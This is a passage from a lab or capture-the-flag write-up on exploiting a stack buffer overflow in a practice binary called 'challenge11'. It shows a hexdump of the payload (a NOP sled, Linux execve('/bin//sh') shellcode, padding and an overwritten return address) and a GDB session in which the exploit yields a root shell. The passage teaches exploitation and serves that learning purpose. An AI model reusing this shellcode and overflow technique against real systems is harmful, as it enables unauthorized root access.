 Remember to convert the `ret_value` number `0xffffdb9c` into little endian first. 

Lets try our new exploit:
```
~/challenges/challenge11$ ./challenge11-exploit.py | hexdump -Cv
00000000  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
00000010  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
00000020  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
00000030  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
00000040  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
00000050  90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
00000060  90 90 90 90 90 90 90 90  90 31 c0 50 68 6e 2f 73  |.........1.Phn/s|
00000070  68 68 2f 2f 62 69 89 e3  31 c9 31 d2 b0 0b cd 80  |hh//bi..1.1.....|
00000080  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
00000090  9c db ff ff                                       |....|
00000094
```

Looking good. Execute it in GDB:
```
(gdb) r `python3 ./challenge11-exploit.py` password
Starting program: /root/challenges/challenge11/challenge11 `python3 ./challenge11-exploit.py` password

isAdmin: 0x41414141
You are admin!
process 848 is executing new program: /usr/bin/dash
# id
[Detaching after vfork from child process 853]
uid=0(root) gid=0(root) groups=0(root)
#
```

It worked! The program spawned a usable shell!


## Verify in GDB

Lets check how the exploit looks like in GDB.

Set a breakpoint at `handleData+115`, which is again exactly before the `ret` (= `pop eip`)
instruction gets executed. 
```
(gdb) b *handleData+115
Breakpoint 1 at 0x8049284: file challenge11.c, line 33.
(gdb) r `python3 ./challenge11-exploit.py` password
Starting program: /root/challenges/challenge11/challenge11 `python3 ./challenge11-exploit.py` password
isAdmin: 0x41414141
You are admin!

Breakpoint 1, 0x08049284 in handleData (username=0xffffde00 "\a\240<\026#\230\223\274\n\a\257i686", password=0xffffded7 "password") at challenge11.c:33
33      }
```
